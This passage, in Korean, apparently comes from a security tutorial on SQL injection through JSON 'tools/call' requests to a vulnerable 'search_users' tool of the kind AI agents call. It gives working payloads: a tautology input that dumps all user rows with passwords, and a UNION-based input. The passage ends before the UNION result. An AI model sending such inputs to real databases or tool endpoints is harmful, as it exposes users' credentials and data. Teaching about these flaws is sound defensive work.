 
## 3. 🚨 SQL Injection (SQL 주입)

### 공격 시나리오
공격자가 사용자 입력을 통해 SQL 쿼리를 조작하여 데이터베이스의 정보를 무단으로 접근하거나 조작하는 상황입니다.

### 실행 예제

#### ✅ 정상적인 사용
```json
{
  "method": "tools/call",
  "params": {
    "name": "search_users",
    "arguments": {
      "username": "admin"
    }
  }
}
```

**결과:**
```
Query executed: SELECT * FROM users WHERE username = 'admin'
Results: [(1, 'admin', 'admin@example.com', 'secret123')]
```

#### 🚨 공격 예제 1: 모든 사용자 정보 조회
```json
{
  "method": "tools/call",
  "params": {
    "name": "search_users",
    "arguments": {
      "username": "' OR '1'='1"
    }
  }
}
```

**결과:**
```
Query executed: SELECT * FROM users WHERE username = '' OR '1'='1'
Results: [(1, 'admin', 'admin@example.com', 'secret123'), (2, 'user1', 'user1@example.com', 'password456'), (3, 'guest', 'guest@example.com', 'guest789')]
```

#### 🚨 공격 예제 2: UNION 기반 공격
```json
{
  "method": "tools/call",
  "params": {
    "name": "search_users",
    "arguments": {
      "username": "' UNION SELECT 999, 'hacker', 'secret_data', 'exposed_password' --"
    }
  }
}
```
